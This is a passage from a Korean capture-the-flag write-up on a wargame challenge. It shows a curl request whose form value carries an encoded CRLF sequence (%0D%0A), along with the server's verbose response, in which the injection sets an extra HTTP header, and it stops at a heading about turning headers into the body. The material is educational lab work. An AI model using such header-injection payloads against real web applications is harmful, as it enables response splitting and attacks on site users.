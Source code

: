 `header`와 `value`폼 데이터를 포함시켜 `POST` 요청

|

|

### 1-2. 헤더 두 개 설정

---

```bash
curl -v http://war.knock-on.org:10013/ -d "header=header1: value1%0D%0Aheader2&value=value2"
```

```bash
* Host war.knock-on.org:10013 was resolved.
* IPv6: 64:ff9b::3b12:d88d
* IPv4: 59.18.216.141
*   Trying [64:ff9b::3b12:d88d]:10013...
* Connected to war.knock-on.org (64:ff9b::3b12:d88d) port 10013
> POST / HTTP/1.1
> Host: war.knock-on.org:10013
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 48
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.3 Python/3.10.12
< Date: Sat, 14 Sep 2024 12:51:45 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 51
< header1: value1
< header2: value2
< Connection: close
<
* Closing connection
I't is very good day to walk out. Power thourgh!!!!
```

```bash
"header=header1: value1%0D%0Aheader2&value=value2"
```

`\r = %0D`: Carrage Return

`\n = %0A`: Line Feed

`CRLF Injection`으로 헤더를 두 개 설정

|

### 1-3. 헤더를 본문으로 인식

---